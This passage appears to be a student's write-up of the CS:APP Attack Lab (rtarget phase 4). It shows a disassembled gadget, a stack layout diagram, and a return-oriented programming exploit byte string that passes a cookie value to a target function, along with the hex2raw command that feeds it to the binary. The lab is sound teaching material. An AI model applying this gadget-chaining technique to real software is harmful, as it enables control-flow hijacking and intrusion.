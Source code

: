 ```asssembly
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq  
```
the gadret2_address: 4019a0+0x2= 0x4019a2

Now you have 2 gadgets and can exploit the rtarget program.


4. construct the buffer overflow stack?

getbuf stack frame after buffer overflow should be:

00 00 00 00 00 40 17 ec
00 00 00 00 00 40 19 a2        gadget2 address -> ret in the end gadget1
00 00 00 00 59 b9 97 fa       -> cookie value (0x59b997fa)
00 00 00 00 00 40 19 ab         gadget1 address  -> return address for getbuf      
+-----------------------------+ <-- 高地址（栈底方向）
00 00 00 00 00 00 00 00                  	
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
+-----------------------------+ <-- 低地址 当前栈顶（%rsp 指向 buf 起始地址）


4. build the exploit string?

exploit4.d
(lower address)
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 
fa 97 b9 59 00 00 00 00 
a2 19 40 00 00 00 00 00 
ec 17 40 00 00 00 00 00 
```
(high address)

   
```shell
# convert to raw bytes
cat exploit4.d | ./hex2raw > raw4.txt
./rtarget -q < raw4.txt
```



# GDB
```shell
```
